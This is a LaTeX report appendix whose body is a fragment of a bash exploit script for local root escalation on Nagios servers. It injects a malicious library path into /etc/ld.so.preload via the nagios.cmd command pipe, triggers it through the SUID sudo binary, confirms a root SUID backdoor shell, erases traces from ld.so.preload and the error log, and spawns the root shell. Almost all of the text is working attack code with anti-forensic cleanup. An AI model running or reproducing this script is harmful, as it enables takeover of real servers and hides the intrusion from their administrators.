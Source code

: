\documentclass[12pt]{report}
\begin{document}
\begin{appendices}
\begin{scriptsize}
\begin{verbatim}
# /etc/ld.so.preload should be owned by nagios:nagios at this point with perms:
# -rw-r--r-- 1 nagios nagios 
# Only 'nagios' user can write to it, but 'nagios' group can not.
# This is not ideal as in scenarios like CVE-2016-9565 we might be running as www-data:nagios user.
# We can bypass the lack of write perm on /etc/ld.so.preload by writing to Nagios external command
# file/pipe nagios.cmd, which is writable by 'nagios' group. We can use it to send a bogus command
# which will inject the path to our privesc library into the nagios.log file (i.e. the ld.so.preload
# file :)

sleep 3s  # Wait for Nagios to create the nagios.cmd pipe
if [ ! -p $commandfile ]; then
  echo -e "\n[!] Nagios command pipe $commandfile does not exist!"
  exit 2
fi  
echo -e "\n[+] Injecting $PRIVESCLIB via the pipe nagios.cmd to bypass lack of write perm on ld.so.preload"
now=`date +%s`
/usr/bin/printf "[%lu] NAGIOS_GIVE_ME_ROOT_NOW!;; $PRIVESCLIB \n" $now > $commandfile
sleep 1s
grep -q "$PRIVESCLIB" /etc/ld.so.preload
if [ $? -eq 0 ]; then 
  echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload | grep "$PRIVESCLIB"`"
else
  echo -e "\n[!] Unable to inject the lib to /etc/ld.so.preload"
  exit 2
fi

} 2>/dev/null

# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
echo -e "\n[+] Triggering privesc code from $PRIVESCLIB by executing $SUIDBIN SUID binary"
sudo 2>/dev/null >/dev/null

# Check for the rootshell
ls -l $BACKDOORPATH | grep rws | grep -q root 2>/dev/null
if [ $? -eq 0 ]; then 
  echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
  echo -e "\n\033[94mGot root via Nagios!\033[0m"
else
  echo -e "\n[!] Failed to get root: \n`ls -l $BACKDOORPATH`"
  cleanexit 2
fi

# Use the rootshell to perform cleanup that requires root privileges
$BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
rm -f $ERRORLOG
echo > $ERRORLOG

# Execute the rootshell
echo -e "\n[+] Nagios pwned. Spawning the rootshell $BACKDOORPATH now\n"
$BACKDOORPATH -p -i

# Job done.
cleanexit 0
\end{verbatim}
\end{scriptsize}
\end{appendices}

\appendix



\end{document}
